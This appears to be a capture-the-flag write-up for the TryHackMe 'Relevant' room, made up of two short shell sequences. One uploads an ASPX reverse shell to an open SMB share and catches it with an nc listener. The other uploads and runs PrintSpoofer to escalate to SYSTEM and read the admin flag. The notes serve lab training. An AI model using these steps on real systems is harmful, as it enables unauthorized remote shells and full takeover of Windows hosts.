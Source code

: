 # Relevant

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [relevant](https://tryhackme.com/room/relevant).

Flag 1

``` sh
git clone https://github.com/borjmz/aspx-reverse-shell
cd aspx-reverse-shell
ifconfig
nano shell.aspx ## add IP from attack machine and port 8888
smbclient \\\\10.10.96.94\\nt4wrksv
put shell.aspx
nc -lvnp 8888
firefox http://10.10.96.94:49663/nt4wrksv/shell.aspx
more c:\users\bob\desktop\user.txt
```

Flag 2

``` sh
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe ## PrintSpoofer32.exe didnt work
smbclient \\\\10.10.96.94\\nt4wrksv
put PrintSpoofer64.exe
cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer64.exe -i -c cmd
more c:\users\administrator\desktop\root.txt
```
